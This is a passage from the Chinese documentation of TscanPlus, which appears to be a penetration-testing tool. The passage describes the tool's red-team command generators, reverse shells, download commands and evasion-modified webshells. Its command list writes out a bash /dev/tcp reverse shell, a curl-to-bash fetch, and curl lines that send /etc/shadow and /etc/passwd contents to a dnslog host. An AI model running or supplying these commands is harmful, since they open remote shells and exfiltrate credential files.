 <div align=center><img src=images/image-20241225095955306.png width=80% ></div>

#### 

#### 14、红队命令

TscanPlus内置常用红队命令，包括Win内网(凭证获取、权限维持、横向移动)命令26类、Linux内网命令18类、下载命令31条。内置各类反弹shell命令85条、MSF生成命令21条、CS免杀上线命令等，可根据shell类型、操作系统类型、监听类型自动生成代码。

##### **【红队命令】**

Win内网(凭证获取、权限维持、横向移动)命令26类、Linux内网命令18类。

<div align=center><img src=images/image-20231221142158055.png width=80% ></div>

##### **【下载命令】**

内置常见下载命令31条，基本能覆盖内网渗透能用到的下载方法。

配置URL地址和目标文件名后，可自动生成相应代码。

<div align=center><img src=images/image-20231221142332714.png width=80% ></div>

##### **【Webshell】**

内置各种语言的基本一句话webshell和部分免杀马，以及冰蝎、蚁剑、哥斯拉等常见webshell的免杀马，共安全人员参考。

<div align=center><img src=images/image-20240830151318754.png width=80% ></div>

#####  **【java编码】**

有时，通过 `Runtime.getRuntime().exec()` 执行命令有效负载会导致失败。使用 WebShell，反序列化利用或通过其他媒介时，可能会发生这种情况。

有时这是因为重定向和管道字符的使用方式在正在启动的进程的上下文中没有意义。例如，`ls > dir_listing`在shell中执行应该将当前目录的列表输出到名为的文件中`dir_listing`。但是在`exec()`函数的上下文中，该命令将被解释为获取`>`和`dir_listing`目录的列表。

其他时候，其中包含空格的参数会被StringTokenizer类破坏，该类将空格分割为命令字符串。那样的东西`ls "My Directory"`会被解释为`ls '"My' 'Directory"'`。

在Base64编码的帮助下，java命令编码转换器可以帮助减少这些问题。它可以通过调用Bash或PowerShell再次使管道和重定向更好，并且还确保参数中没有空格。

常用命令清单

```
bash -i >& /dev/tcp/127.0.0.1/6666 0>&1
ping `whoami`.key.dnslog.cn
curl http://www.google.com/bash.txt|bash
curl http://key.dnslog.cn/?r=`whoami`
curl http://key.dnslog.cn/?r=`cat /etc/shadow|base64`
curl http://key.dnslog.cn/?r=$(cat /etc/passwd|base64|tr '\n' '-')
curl http://www.google.com/key.txt
curl http://www.google.com/key.txt -O
curl http://www.google.com/key.txt -o key.txt
```

<div align=center><img src=images/image-20240111143548211.png width=80% ></div>
